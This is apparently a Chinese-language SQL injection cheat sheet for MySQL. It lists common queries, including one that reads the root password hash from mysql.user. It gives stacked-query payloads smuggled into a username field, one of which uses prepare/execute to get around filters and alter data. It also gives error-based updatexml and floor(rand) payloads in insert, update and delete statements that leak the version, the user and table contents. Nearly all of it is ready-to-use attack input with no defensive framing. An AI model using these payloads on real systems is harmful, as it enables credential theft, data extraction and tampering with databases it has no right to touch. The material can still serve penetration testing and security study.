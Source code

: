 ### 常用语句

```
0.select Password from mysql.user where User='root' limit 0,1;                      #查询root账户密码
1.select table_name from information_schema.tables where table_schema=database();   #查询数据库的所有数据表
2.update tab_name set col_name=val;                                                 #更新字段值
3.insert into tab_name values(val1,val2);                                           #往tab_name表中插入一条字段1值为val1，字段2值为val2的记录
4.delete from tab_name where col_name = val;                                        #删除一条字段为"val"的记录
5.select count(*) from db_name.tab_name >=1                                         #判断记录数是否大于等于1条
6.select char_length((select id from apptest.answer limit 0,1))                     #判断记录长度
7.show variables like '%char%';                                                     #查看字符集
8.show variables like '%secure%';                                                   #查看可导出路径

username=1';show databases# 查看数据库名

username=1';show tables from english# 查看数据库中的表

username=1';show tables#

username=1';show columns from score# 查看表中的字段
堆叠查询
username=1';set @sql=concat('up','date `score` set listen=123 where username="火华"');prepare sql_exe FROM @sql;execute sql_exe#

```

### 其他insert/update/delete注入

```
https://xz.aliyun.com/t/2288
https://www.anquanke.com/post/id/85487
http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5/
http://wps2015.org/drops/drops/%E5%88%A9%E7%94%A8insert%EF%BC%8Cupdate%E5%92%8Cdelete%E6%B3%A8%E5%85%A5%E8%8E%B7%E5%8F%96%E6%95%B0%E6%8D%AE.html
http://vinc.top/2017/04/06/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91insert%E3%80%81update%E5%92%8Cdelete%E6%97%B6%E9%97%B4%E7%9B%B2%E6%B3%A8/
等待补充

payload:
insert into math1 values (11,'name' xor updatexml(3,concat(0x7e,(version())),0) xor '');
insert into math1 values (23,'name'^updatexml(2,concat(0x7e,(version())),0)^'');


update math1 set name = 'bbbx' and updatexml(2,concat(0x7e,(version())),0) and '';
delete from math1 where id = 13 or updatexml(2,concat(0x7e,(version())),0) or '';


-------------------------------------------------------------------------------------------------
insert into math1 values (14,'name' or updatexml(2,concat(0x7e,(user())),0) or '');
insert into math1 values (14,'name' or updatexml(2,user(),0) or '');


delete from math1 where id = 5 or updatexml(2,concat(0x7e,(select user())),0);

update math1 set name = 'test' or updatexml(2,concat(0x7e,(select concat_ws(0x7e,id,name) from (select * from math1)xx limit 0,1)),0) where id = 5;

update math1 set name = 'test' and (SELECT 1 FROM(SELECT count(*),concat((SELECT (SELECT (SELECT concat_ws(0x7e,id,name) FROM math1 LIMIT 0,1) ) FROM information_schema.tables limit 0,1),floor(rand(0)*2))x FROM information_schema.columns group by x)a) and '' where id = 5;
```
